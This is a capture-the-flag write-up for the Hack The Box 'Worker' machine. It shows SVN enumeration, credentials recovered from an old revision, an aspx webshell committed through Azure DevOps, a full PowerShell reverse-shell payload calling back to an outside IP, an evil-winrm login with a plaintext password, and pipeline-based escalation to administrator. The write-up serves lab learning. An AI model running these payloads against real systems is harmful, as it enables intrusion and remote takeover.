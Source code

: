# Worker



## Contents

- [**About Box**](#About%20Box)
- [**Profile**](#Profile)
- [**Enumeration**](#Enumeration)
- [**Exploitation**](#Exploitation)
- [**Post-exploitation**](#Post-exploitation)
  - [**Own User**](#Own%20User)
  - [**Own Root**](#Own%20Root)




## About Box

 ![](img/about_box.png)



## Profile

[![Akinflo](http://www.hackthebox.eu/badge/image/419539)](https://www.hackthebox.eu/home/users/profile/419539)



## Enumeration

First, nmap scan:

 ![](img/nmap.png)



Port 80 is open and Microsoft IIS is used. After a look in the website, i found nothing. So, i tried to look for the 3690 port which is svn service.

I start to list the files in the the svn server using the command:

```bash
svn list svn://10.10.10.203
```

 ![](img/svn_list.png)

After that, i start to connect to this server with:

```bash
svn co svn://10.10.10.203
```

I got this files. In the directory, i read the `index.html` file and got lot of new subdomains:

 ![](img/all_subdomain.png)



I found another new subdomain `devops.worker.htb` in `moved.txt` file:

 ![](img/new_subdomain.png)

After adding the subdomains to my `/etc/hosts` file, i tried to connect on my browser to this webpages. I found nothing on this webpages but `devops.worker.htb` wanted authentication.

So i continue my searches on the svn server to get credentials.

I checked all revisions commited with:

```bash
svn log -v svn://10.10.10.203
```

 ![](img/svn_log.png)



I found a file which is not on the current revision but on the revision 2, so i tried to get it with the export option:

```bash
svn export -r 2 svn://10.10.10.203 revision2
```

 ![](img/revision2.png)

Got it. Have a look in this file and we got credentials:

 ![](img/credentials_svn.png)

Now we can log in the previous webpage.



## Exploitation

Here, Azure Devops is deployed. I search a while on this webpage and i found the subdomains builds on the Azure pipeline section:

 ![](img/pipeline_builds.png)



So, i executed the build pipeline, after that, i found a lot of information about how the website is deployed:

 ![](img/repos_url.png)



I tried to add the `_git/aplha` path to the git repository url: `http://devops.worker.htb/ekenas/SmartHotel360/_git/alpha`

So, i have access to the website git repository, and for all user found previously. First, i create a new branch on the git repo of Lens, after that, i tried to upload different type of files and the **aspx** extension worked. So i upload an **aspx webshell** file, commit it:

 ![](img/commit_shell.png)



After that, i had to validate a pull request to merge the temperaly branch to the master branch:

 ![](img/pull.png)



I tried to load shell.aspx: `http://lens.worker.htb/shell.aspx` and i got the webshell:

 ![](img/webshell.png)



I start my port listener:

```bash
nc -lvp 4242
```



And enter the following payload to get my shell:

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.124',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```



And i got it:

 ![](img/reverse_shell.png)



Go to `c:\Users` to list the user, see that is **robisl**, after that, i continue to search credentials and i got a file in the following path `w:\svnrepos\conf\passwd`, and i found **robisl** password  :

 ![](img/user_passwd.png)



## Post-exploitation

### Own User

I tried to use a windows remote management tool called **evil-winrm** to create remote connection to **robisl** account: 

```bash
evil-winrm -i devops.worker.htb -u robisl -p wolves11
```

 And it worked:

 ![](img/owned_user.png)



### Own Root

First, i connected to **robisl** account on `devops.worker.htb`, and after some searches, i found that i can trigger powershell command remotely with administrator privileges.

To trigger it, i went to the pipeline section to create a build and i added powershell script to make reverse shell:

 ![](img/powershell_pipeline.png)



After that, i saved and add it on the queue:

 ![](img/queue.png)



When i clicked on this build, i got the reverse shell and owned root:

 ![](img/rooted.png)

